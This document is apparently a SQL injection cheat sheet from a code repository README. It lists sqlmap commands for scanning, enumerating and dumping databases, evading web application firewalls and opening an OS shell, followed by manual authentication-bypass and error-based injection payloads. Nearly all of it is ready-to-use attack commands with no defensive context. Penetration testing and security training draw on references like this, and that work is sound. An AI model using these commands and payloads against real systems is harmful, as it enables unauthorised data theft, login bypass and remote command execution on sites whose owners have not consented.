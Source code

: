 ## 📝 Cheat Sheet

### Quick SQLMap Commands

```bash
# Basic scan
sqlmap -u "URL" --batch

# Aggressive scan
sqlmap -u "URL" --batch --level=5 --risk=3

# With cookies
sqlmap -u "URL" --cookie="session=xxx" --batch

# POST request
sqlmap -u "URL" --data="user=test&pass=test" --batch

# From Burp request file
sqlmap -r request.txt --batch

# Multiple URLs
sqlmap -m urls.txt --batch --threads=10

# Get databases
sqlmap -u "URL" --dbs --batch

# Get tables
sqlmap -u "URL" -D dbname --tables --batch

# Dump table
sqlmap -u "URL" -D dbname -T tablename --dump --batch

# WAF bypass
sqlmap -u "URL" --tamper=space2comment --random-agent --batch

# OS shell
sqlmap -u "URL" --os-shell --batch
```

### Manual SQL Injection Payloads

**Authentication Bypass:**
```sql
admin'--
admin'#
' OR 1=1--
' OR '1'='1
admin' OR '1'='1'--
') OR ('1'='1
```

**Error-Based:**
```sql
' AND 1=CONVERT(int, (SELECT @@version))--
' UNION SELECT NULL,NULL,NULL--
```
